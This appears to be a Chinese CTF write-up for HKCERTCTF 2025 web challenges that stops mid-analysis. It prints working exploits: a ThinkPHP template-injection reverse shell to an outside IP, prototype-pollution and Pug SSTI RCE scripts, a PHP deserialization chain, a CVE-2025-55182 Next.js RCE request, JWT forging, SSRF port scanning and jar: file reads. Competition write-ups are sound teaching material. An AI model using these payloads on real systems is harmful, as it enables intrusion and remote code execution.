+++
title= "HKCERTCTF 2025"
slug= "hkcertctf-2025"
description= ""
date= "2025-12-22T01:16:06+08:00"
lastmod= "2025-12-22T01:16:06+08:00"
image= ""
license= ""
categories= ["赛题"]
tags= [""]

+++

## renderme

thinkphp 的模板注入，测试了一下，参数带外可以放恶意函数，解析的话，ThinkPHP 模板引擎支持 `{$var|function}`的语法，语法结构为`{$待处理变量|函数名}`，发现 choom 进行 suid 提权

```bash
?name={$Request.get.a|$Request.get.b}&a=id&b=system

?name={$Request.get.a|$Request.get.b}&a=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F154.36.181.12%2F12345%200%3E%261%22&b=system

find / -type f -perm -4000 2>/dev/null
choom -n 0 -- /bin/sh -p
```



## BabyUpload

.htaccess 文件上传，直接读取 flag

```plain
redirect permanent "/%{BASE64:%{FILE:/flag}}"
```



## ezjs

```json
{
  "name": "shabby_website",
  "version": "1.0.0",
  "description": "",
  "main": "app.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "Rieß",
  "license": "ISC",
  "dependencies": {
    "body-parser": "^1.20.2",
    "cookie-parser": "^1.4.6",
    "express": "^4.18.1",
    "express-session": "^1.17.3",
    "json5": "2.2.1",
    "string-random": "^0.1.3",
    "pug": "^3.0.2"
  }
}
```

`json5` 在 **2.2.2** 版本之前存在 **Prototype Pollution** 漏洞（CVE-2022-46175）

```javascript
const expres=require('express')
const JSON5 = require('json5');
const bodyParser = require('body-parser')
const pugjs=require('pug')
const session = require('express-session')
const rand = require('string-random')
var cookieParser = require('cookie-parser');
const SECRET = rand(32, '0123456789abcdef')

const port=80
const app=expres()

app.use(bodyParser.urlencoded({ extended: false }))
app.use(bodyParser.json())
app.use(session({
    secret: SECRET,
    resave: false,
    saveUninitialized:  true,
    cookie: { maxAge: 3600 * 1000 }
}));
app.use(cookieParser());
function waf(obj, arr){
    let verify = true;

    Object.keys(obj).forEach((key) => {
        if (arr.indexOf(key) > -1) {
            verify = false;
        }
    });
    return verify;
}
app.get('/',(req,res)=>{
    res.send('hey bro!')
})

app.post('/login',(req,res)=>{
    let userinfo=JSON.stringify(req.body)
    const user = JSON5.parse(userinfo)
    if (waf(user, ['admin'])) {
        req.session.user  = user
        if(req. session.user.admin==true){
            req.session.user='admin'
            res.send('hello,admin')
        }
        else{
            res.send('hello,guest')
        }
    }
    else {
        res.send('login error!')
    }
})

app.post('/render',(req,res)=>{
    if (req.session.user === 'admin'){
    
        var word = req.body.word
        
        const blacklist = ['require', 'exec']
        let isBlocked = false
        
        if (word) {
            for (let keyword of blacklist) {
                if (word.toLowerCase().includes(keyword.toLowerCase())) {
                    isBlocked = true
                    break
                }
            }
        }
        
        if (isBlocked) {
            res.send('Blocked:  dangerous keywords detected!')
        } else {
            var hello='welcome '+ word
            res.send (pugjs.render(hello))
        }
    }
    else{
        res.send('you are not admin')
    }
})

app.listen(port, () => {
    console.log(`Example app listening on port ${port}`)
})
```

到了 admin 之后绕过 RCE 即可

```python
import httpx

url = "http://web-78d8ea15ea.challenge.xctf.org.cn"
client = httpx.Client()

login_url = url + "/login"
headers_login = {"Content-Type": "application/json"}
payload_login = '{"__proto__":{"admin":true}}'

r1 = client.post(login_url, content=payload_login, headers=headers_login)
print(r1.text)

if "hello,admin" not in r1.text:
    exit()

render_url = url + "/render"
headers_render = {"Content-Type": "application/x-www-form-urlencoded"}

cmd = "cat /flag"
ssti_payload = f"#{{global.process.mainModule.constructor._load('child_process')['ex'+'ecSync']('{cmd}').toString()}}"

data = {
    "word": ssti_payload
}

r2 = client.post(render_url, data=data, headers=headers_render)
print(r2.text)
```

## r

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class RequestHandler {
    public $processor;
    public $action;
    
    public function __construct() {
        $this->processor = new class {
            private $handle;
            
            public function __construct() {
                $this->handle = tmpfile();
            }
            
            public function __wakeup() {
                $this->handle = null;
            }
            
            public function execute() {
                if (!is_resource($this->handle)) {
                    die("Invalid resource state<br>");
                }
                system($_GET['cmd']);
            }
        };
    }
    
    public function __destruct() {
        if (!is_array($this->action)) {
            die("Error: action must be an array");
        }
        $cb=$this->action;
        $cb();
    }
}

$payload = $_GET['p'] ?? 'O:14:"RequestHandler":N';
@unserialize($payload);
```

processor 会创建一个匿名类，利用`__destruct()`调用`__construct()`，利用引用绕过 wakeup

```php
<?php
class RequestHandler {
    public $processor;
    public $action;
}

$b = new RequestHandler();
$b->processor = null; 

$b->action = [&$b->processor, "execute"];

$a = new RequestHandler();
$a->action = [$b, "__construct"]; 

echo urlencode(serialize($a));
echo "\n";
?>
```

然后 RCE 就行，flag 在根目录



## easy-LUA

一个 LUA 执行器，先看版本和遍历环境变量

```lua
print(_VERSION)
-- Lua 5.1


for k,v in pairs(_G) do
  print(k, v)
end


-- package	table: 0xa316ae0
-- _G	table: 0xa3169f0
-- _VERSION	Lua 5.1
-- _GOPHER_LUA_VERSION	GopherLua 0.1
-- pcall	function: 0xa3705e0
-- print	function: 0xa3711c0
-- _printregs	function: 0xa370620
-- setmetatable	function: 0xa370640
-- getmetatable	function: 0xa370660
-- tonumber	function: 0xa370680
-- unpack	function: 0xa3706a0
-- xpcall	function: 0xa3706c0
-- require	function: 0xa3706e0
-- assert	function: 0xa370700
-- error	function: 0xa370720
-- rawequal	function: 0xa370740
-- rawget	function: 0xa370760
-- rawset	function: 0xa370780
-- setfenv	function: 0xa3707a0
-- getfenv	function: 0xa3707c0
-- load	function: 0xa3707e0
-- loadfile	function: 0xa370800
-- select	function: 0xa370820
-- tostring	function: 0xa370840
-- type	function: 0xa370860
-- module	function: 0xa370880
-- newproxy	function: 0xa3708a0
-- collectgarbage	function: 0xa3708c0
-- dofile	function: 0xa3708e0
-- loadstring	function: 0xa370900
-- next	function: 0xa370920
-- ipairs	function: 0xa370980
-- pairs	function: 0xa3709c0
-- table	table: 0xa316ba0
-- string	table: 0xa316bd0
-- math	table: 0xa316c00
-- S3cr3t0sEx3cFunc	function: 0xa3711e0
-- getFileContent	function: 0xa371200
-- getFileList	function: 0xa371220
```

发现有个函数很有 CTF 风格`S3cr3t0sEx3cFunc`直接 RCE

```lua
print(S3cr3t0sEx3cFunc("id"))
print(S3cr3t0sEx3cFunc("cat /flag"))
```

## netool

```python
def verify_token(token: str) -> TokenData:
    print(f"Token to verify: {token}")
    
    try:
        SECRET_KEY = "secretkey" if len(token) <= 2048 else base64.b64decode(token[:2048])
    except Exception:
        raise HTTPException(
            status_code=status.HTTP_500_INTERNAL_SERVER_ERROR, 
            detail=f"Token custom check failed: {traceback.format_exc()}"
            )
    
    # ... 后续逻辑 ...
```

直接打印错误到前端，不儿？这个题怎么和拟态决赛的一样😂

```python
import requests
import re
import jwt
import json
from datetime import datetime, timedelta

BASE_URL = "http://web-36735631ba.challenge.xctf.org.cn"

def get_secret_key():
    malicious_token = ("A" * 2045) + ("!" * 3) + "OVERFLOW"
    
    headers = {
        "Cookie": f"access_token=Bearer {malicious_token}"
    }

    try:
        r = requests.get(f"{BASE_URL}/guest/dashboard", headers=headers)
        
        if r.status_code == 500:
            print("[+] 成功触发 500 错误，正在解析响应...")
            try:
                error_text = r.json().get("detail", "")
            except:
                error_text = r.text
            pattern = r'SECRET_KEY\s*=\s*["\']([^"\']+)["\']'
            match = re.search(pattern, error_text)
            
            if match:
                key = match.group(1)
                print(f"[!] 🎯 成功捕获密钥: {key}")
                return key
            else:
                print("[-] 触发了报错，但正则没匹配到 Key。")
                print(f"[-] 调试信息 (部分): {error_text[:200]}")
                return None
        else:
            print(f"[-] 未能触发 500 错误，状态码: {r.status_code}")
            return None

    except Exception as e:
        print(f"[-] 连接异常: {e}")
        return None

def attack(secret_key):
    
    token_payload = {
        "sub": "admin",
        "exp": datetime.utcnow() + timedelta(minutes=10),
        "iat": datetime.utcnow()
    }
    
    token = jwt.encode(token_payload, secret_key, algorithm="HS256")

    if isinstance(token, bytes):
        token = token.decode('utf-8')
    cookies = {
        "access_token": f"Bearer {token}"
    }
    return cookies

if __name__ == "__main__":
    # 执行全流程
    real_key = get_secret_key()
    print(real_key)
    print(attack(real_key))
```

进行内网服务探测

```python
import httpx
import asyncio
import jwt
import sys
from datetime import datetime, timedelta

REAL_KEY = "RDbiBrgdR#CrdZVW"
BASE_URL = "http://web-36735631ba.challenge.xctf.org.cn"
SSRF_URL = f"{BASE_URL}/admin/nettools"
PORTS = range(1, 65536)
CONCURRENCY = 50

def get_token():
    payload = {"sub": "admin", "exp": datetime.utcnow() + timedelta(hours=1)}
    token = jwt.encode(payload, REAL_KEY, algorithm="HS256")
    return token if isinstance(token, str) else token.decode()

async def scan(client, port, token, sem):
    async with sem:
        try:
            data = {
                "http_method": "GET",
                "http_url": f"http://127.0.0.1:{port}/",
                "http_headers": "{}",
                "http_body": ""
            }
            resp = await client.post(SSRF_URL, data=data, cookies={"access_token": f"Bearer {token}"}, timeout=3)
            
            if "Status: " in resp.text and "Connection refused" not in resp.text:
                status = resp.text.split("Status: ")[1][:3].strip()
                print(f"\033[1;32m[+] Port {port:<5} | Status: {status} | Length: {len(resp.text)}\033[0m")
        except:
            pass

async def main():
    token = get_token()
    print(f"[*] Scanning 127.0.0.1 ports {PORTS.start}-{PORTS.stop-1}...")
    
    sem = asyncio.Semaphore(CONCURRENCY)
    limits = httpx.Limits(max_keepalive_connections=None, max_connections=None)
    
    async with httpx.AsyncClient(limits=limits, verify=False) as client:
        await asyncio.gather(*(scan(client, p, token, sem) for p in PORTS))

if __name__ == "__main__":
    if sys.platform == 'win32': 
        asyncio.set_event_loop_policy(asyncio.WindowsSelectorEventLoopPolicy())
    asyncio.run(main())
```

直接读取 /flag 不成功，探测内网服务发现 9000 有个  MCP，然后列目录，读文件

## react

CVE-2025-55182，直接打就行

```http
POST / HTTP/1.1
Host: web-ab1a42708d.challenge.xctf.org.cn
Next-Action: x
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Length: 763

------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="0"

{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1337\"}",
  "_response": {
    "_prefix": "var res=process.mainModule.require('child_process').execSync('tac /flag').toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'),{digest: `NEXT_REDIRECT;push;/login?a=${res};307;`});",
    "_chunks": "$Q2",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="1"

"$@0"
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="2"

[]
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--
```



## NetWatcher

开头是个ssrf，利用 jar 协议进行任意文件读取

```bash
jar:<url>!/{entry}
jar:：协议头。
<url>：这是JAR文件的绝对路径，可以是本地文件（file://）也可以是远程文件（http://）。
!/：分隔符，表示后面紧跟的是压缩包内的文件名。

jar:file:///proc/self/cwd/app.jar!/BOOT-INF/classes/application.properties

jar:file:///proc/self/cwd/app.jar!/BOOT-INF/classes/org/ctf/netwatcher/controller/PreviewController.class
```

看下逻辑

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package org.ctf.netwatcher.controller;

import com.fasterxml.jackson.databind.ObjectMapper;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.net.URL;
import java.net.URLConnection;
import java.nio.charset.StandardCharsets;
import java.util.Base64;
import org.ctf.netwatcher.annotation.DeveloperNote;
import org.ctf.netwatcher.model.RequestPayload;
import org.ctf.netwatcher.util.SecurityTools;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestBody;

@Controller
@DeveloperNote(" Developer's note. The old admin check logic was removed. The AdminController is for internal use only and should never be loaded directly.")
public class PreviewController {
    @Autowired
    private ObjectMapper objectMapper;

    @GetMapping({"/"})
    public String index() {
        return "index";
    }

    @PostMapping({"/api/preview"})
    public String preview(@RequestBody String rawBody, Model model) {
        try {
            String decodedJson = new String(Base64.getDecoder().decode(rawBody), StandardCharsets.UTF_8);
            RequestPayload payload = (RequestPayload)this.objectMapper.readValue(decodedJson, RequestPayload.class);
            if (!SecurityTools.verifySignature(payload)) {
                model.addAttribute("error", "Security Alert: Signature Verification Failed.");
                return "index";
            }

            String targetUrl = payload.getUrl();
            if (!SecurityTools.isSafeProtocol(targetUrl)) {
                model.addAttribute("error", "Security Alert: Blocked Protocol detected.");
                return "index";
            }

            if (targetUrl.toLowerCase().contains("flag")) {
                model.addAttribute("error", "Security Alert: Sensitive file access attempt.");
                return "index";
            }

            URL url = new URL(targetUrl);
            URLConnection connection = url.openConnection();
            connection.setConnectTimeout(2000);
            connection.setReadTimeout(2000);

            try (
                InputStream in = connection.getInputStream();
                ByteArrayOutputStream out = new ByteArrayOutputStream();
            ) {
                byte[] buffer = new byte[4096];

                int n;
                while((n = in.read(buffer)) != -1) {
                    out.write(buffer, 0, n);
                }

                byte[] fileContent = out.toByteArray();
                String base64Content = Base64.getEncoder().encodeToString(fileContent);
                model.addAttribute("result", base64Content);
                model.addAttribute("target", targetUrl);
            }
        } catch (Exception var18) {
            model.addAttribute("error", "Invalid JSON format. Error occurred in: org.ctf.netwatcher.controller.PreviewController");
        }

        return "index";
    }
}
```

接着读取即可

```bash
jar:file:///proc/self/cwd/app.jar!/BOOT-INF/classes/org/ctf/netwatcher/controller/AdminController.class

jar:file:///proc/self/cwd/app.jar!/BOOT-INF/classes/org/ctf/netwatcher/util/SecurityTools.class

jar:file:///proc/self/cwd/app.jar!/BOOT-INF/classes/org/ctf/netwatcher/model/RequestPayload.class
```

看admin的控制器

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package org.ctf.netwatcher.controller;

import java.io.ByteArrayInputStream;
import java.io.InvalidClassException;
import java.util.Base64;
import org.springframework.beans.factory.annotation.Value;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestBody;
import org.springframework.web.bind.annotation.RequestHeader;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
@RequestMapping({"/internal/api/v1/admin"})
public class AdminController {
    @Value("${admin.access.token}")
    private String adminToken;

    @PostMapping({"/console"})
    public String adminConsole(@RequestBody String payload, @RequestHeader(value = "X-Admin-Token",required = false) String token) {
        if (token != null && token.equals(this.adminToken)) {
            try {
                byte[] data = Base64.getDecoder().decode(payload);
                SecureObjectInputStream ois = new SecureObjectInputStream(new ByteArrayInputStream(data));
                Object obj = ois.readObject();
                return "Task Submitted: " + obj.toString();
            } catch (InvalidClassException e) {
                return "Security Alert: Malicious Gadget Blocked (" + e.getMessage() + ")";
            } catch (Exception var7) {
                return "Processing Failed";
            }
        } else {
            return "403 Forbidden: Invalid Access Token";
        }
    }
}
```

反序列化接口`/internal/api/v1/admin/console`需要Header X-Admin-Token，明文 key 为 N3tW4tch3r_Sup3r_S3cr3txxx_K3y_2024，读取黑名单

```java
//jar:file:///proc/self/cwd/app.jar!/BOOT-INF/classes/org/ctf/netwatcher/controller/AdminController$SecureObjectInputStream.class
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package org.ctf.netwatcher.controller;

import java.io.IOException;
import java.io.InputStream;
import java.io.InvalidClassException;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;
import java.util.Arrays;
import java.util.List;

class AdminController$SecureObjectInputStream extends ObjectInputStream {
    private static final List<String> BLACKLIST = Arrays.asList("com.fasterxml.jackson", "com.fasterxml.jackson.databind.node.POJONode");

    public AdminController$SecureObjectInputStream(InputStream in) throws IOException {
        super(in);
    }

    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        String className = desc.getName();

        for(String black : BLACKLIST) {
            if (className.startsWith(black)) {
                throw new InvalidClassException("Unauthorized class: " + className);
            }
        }

        return super.resolveClass(desc);
    }
}
```

过滤了 Jackson 链关键方法，读取一下 pom.xml

```xml
jar:file:///proc/self/cwd/app.jar!/META-INF/MANIFEST.MF

Manifest-Version: 1.0
Created-By: Maven JAR Plugin 3.3.0
Build-Jdk-Spec: 17
Implementation-Title: netwatcher
Implementation-Version: 0.0.1-SNAPSHOT
Main-Class: org.springframework.boot.loader.launch.JarLauncher
Start-Class: org.ctf.netwatcher.NetwatcherApplication
Spring-Boot-Version: 3.2.4
Spring-Boot-Classes: BOOT-INF/classes/
Spring-Boot-Lib: BOOT-INF/lib/
Spring-Boot-Classpath-Index: BOOT-INF/classpath.idx
Spring-Boot-Layers-Index: BOOT-INF/layers.idx


jar:file:///proc/self/cwd/app.jar!/META-INF/maven/org.ctf/netwatcher/pom.xml

<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>3.2.4</version>
        <relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>org.ctf</groupId>
    <artifactId>netwatcher</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>netwatcher</name>
    <description>netwatcher</description>
    <url/>
    <licenses>
        <license/>
    </licenses>
    <developers>
        <developer/>
    </developers>
    <scm>
        <connection/>
        <developerConnection/>
        <tag/>
        <url/>
    </scm>
    <properties>
        <java.version>17</java.version>
    </properties>
    <dependencies>
        <!-- Web 模块 (包含 Tomcat, Jackson, Spring MVC) -->
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>

        <!-- Thymeleaf 模板 -->
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-thymeleaf</artifactId>
        </dependency>

        <!-- AOP 模块 (题目要求的) -->
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-aop</artifactId>
        </dependency>

        <!-- 工具库 (Base64, MD5) -->
        <dependency>
            <groupId>commons-codec</groupId>
            <artifactId>commons-codec</artifactId>
            <version>1.16.1</version>
        </dependency>

        <!-- Lombok -->
        <dependency>
            <groupId>org.projectlombok</groupId>
            <artifactId>lombok</artifactId>
            <optional>true</optional>
        </dependency>

        <dependency>
            <groupId>org.aspectj</groupId>
            <artifactId>aspectjweaver</artifactId>
            <version>1.9.8</version>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>

</project>
```

估计是打 spring 那条新链子，入口还是使用`EventListenerList#readObject`触发 toString 方法，后面肯定还是要用 templates，所以`JdkDynamicAopProxy`还是要用的，在 Java 中如果触发了代理对象的任意方法都会触发其 invoke 方法，

```java
@Nullable
public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
    Object oldProxy = null;
    boolean setProxyContext = false;
    TargetSource targetSource = this.advised.targetSource;
    Object target = null;

    Boolean var8;
    try {
        if (this.cache.equalsDefined || !AopUtils.isEqualsMethod(method)) {
            if (!this.cache.hashCodeDefined && AopUtils.isHashCodeMethod(method)) {
                Integer var19 = this.hashCode();
                return var19;
            }

            if (method.getDeclaringClass() == DecoratingProxy.class) {
                Class var18 = AopProxyUtils.ultimateTargetClass(this.advised);
                return var18;
            }

            if (!this.advised.opaque && method.getDeclaringClass().isInterface() && method.getDeclaringClass().isAssignableFrom(Advised.class)) {
                Object var17 = AopUtils.invokeJoinpointUsingReflection(this.advised, method, args);
                return var17;
            }

            if (this.advised.exposeProxy) {
                oldProxy = AopContext.setCurrentProxy(proxy);
                setProxyContext = true;
            }

            target = targetSource.getTarget();
            Class<?> targetClass = target != null ? target.getClass() : null;
            List<Object> chain = this.advised.getInterceptorsAndDynamicInterceptionAdvice(method, targetClass);
            Object retVal;
            if (chain.isEmpty()) {
                Object[] argsToUse = AopProxyUtils.adaptArgumentsIfNecessary(method, args);
                retVal = AopUtils.invokeJoinpointUsingReflection(target, method, argsToUse);
            } else {
                MethodInvocation invocation = new ReflectiveMethodInvocation(proxy, target, method, args, targetClass, chain);
                retVal = invocation.proceed();
            }

            Class<?> returnType = method.getReturnType();
            if (retVal != null && retVal == target && returnType != Object.class && returnType.isInstance(proxy) && !RawTargetAccess.class.isAssignableFrom(method.getDeclaringClass())) {
                retVal = proxy;
            } else if (retVal == null && returnType != Void.TYPE && returnType.isPrimitive()) {
                throw new AopInvocationException("Null return value from advice does not match primitive return type for: " + String.valueOf(method));
            }

            if (coroutinesReactorPresent && KotlinDetector.isSuspendingFunction(method)) {
                Object var22 = "kotlinx.coroutines.flow.Flow".equals((new MethodParameter(method, -1)).getParameterType().getName()) ? CoroutinesUtils.asFlow(retVal) : CoroutinesUtils.awaitSingleOrNull(retVal, args[args.length - 1]);
                return var22;
            }

            Object var12 = retVal;
            return var12;
        }

        var8 = this.equals(args[0]);
    } finally {
        if (target != null && !targetSource.isStatic()) {
            targetSource.releaseTarget(target);
        }

        if (setProxyContext) {
            AopContext.setCurrentProxy(oldProxy);
        }

    }

    return var8;
}
```

对于 hashcode 和 equals 方法直接返回，但是我触发的是 toString，他并没有明确说明，一直到获取被代理的原始对象之后，`List<Object> chain = this.advised.getInterceptorsAndDynamicInterceptionAdvice(method, targetClass);`会检查是否有`Advisor/Advice`需要执行，然后 chain 肯定不为空，所以我们需要走这条路



现在需要寻找合适的`Advisor/Advice`类的 invoke 方法可以合适调用的，找到`AspectJAroundAdvice#invoke`

```java
@Nullable
public Object invoke(MethodInvocation mi) throws Throwable {
    if (mi instanceof ProxyMethodInvocation pmi) {
        ProceedingJoinPoint pjp = this.lazyGetProceedingJoinPoint(pmi);
        JoinPointMatch jpm = this.getJoinPointMatch(pmi);
